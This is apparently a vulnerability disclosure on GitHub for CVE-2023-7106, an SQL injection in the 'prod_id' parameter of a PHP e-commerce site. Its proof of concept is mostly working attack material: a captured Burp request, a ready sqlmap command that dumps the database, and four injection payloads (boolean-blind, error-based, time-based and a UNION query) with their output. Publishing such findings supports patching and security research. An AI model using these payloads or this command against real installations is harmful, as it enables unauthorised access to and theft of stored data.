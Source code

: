 # CVE-2023-7106_E-Commerce Website - SQL Injection 2
+ **Exploit Title:** CVE-2023-7106_E-Commerce Website - SQL Injection 2
+ **Date:** 2023-24-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/e-commerce-website-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/01/E-COMMERCE_WEBSITE_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 1.0
+ **Tested on:** Windows 10 Pro + PHP 8.1.6, Apache 2.4.53
+ **CVE:** CVE-2023-7106

## References: 
+ **CVE-2023-7106:** https://vuldb.com/?id.249001
+ https://www.cve.org/CVERecord?id=CVE-2023-7106

## Description:
E-Commerce Website 1.0 allows SQL Injection via parameter 'prod_id' in "http://localhost/Electricks/Electricks-shop/pages/product_details.php?prod_id=11". Exploiting this issue could allow an attacker to compromise the application, access or modify data,  or exploit latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to the ELECTRONIC PRODUCTS: "http://localhost/Electricks/Electricks-shop/pages/products.php"
+ Option and View.
+ Intercept the request via Burp Suite and send to Repeater.
+ Copy and paste the request to a "r.txt" file.
+ Captured Burp request:
```
GET /Electricks/Electricks-shop/pages/product_details.php?prod_id=11 HTTP/1.1
Host: localhost
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-us,en;q=0.5
Cache-Control: no-cache
Cookie: PHPSESSID=ph6ngt1khn1l20eg8hivgv8uc6
Referer: http://localhost/Electricks/Electricks-shop/index.php
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
```

+ Use sqlmap to exploit. In sqlmap, use 'prod_id' parameter to dump the database. 
```
python sqlmap.py -r r.txt -p prod_id --risk 3 --level 5 --threads 1 --random-agent tamper=between,randomcase --proxy="http://127.0.0.1:8080" --dbms mysql --batch --current-db
```

```
---
Parameter: prod_id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: prod_id=11' AND 7251=7251-- mvqJ

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: prod_id=11' AND (SELECT 4336 FROM(SELECT COUNT(*),CONCAT(0x716a787671,(SELECT (ELT(4336=4336,1))),0x71627a7a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- FBBS

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: prod_id=11' AND (SELECT 3355 FROM (SELECT(SLEEP(5)))DonO)-- wPLs

    Type: UNION query
    Title: Generic UNION query (NULL) - 12 columns
    Payload: prod_id=11' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x716a787671,0x4477555048486f6e487148784e57436e6b546e534d654447714f6256496243505158646c65797252,0x71627a7a71),NULL,NULL,NULL,NULL,NULL-- -
---
[20:05:42] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.53, PHP 8.1.6
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[20:05:42] [INFO] fetching current database
current database: 'electricks'
```

+ current database: `electricks`
![2](https://github.com/h4md153v63n/CVEs/assets/5091265/ef46e98d-0521-488a-aef2-0ae24dadba49)
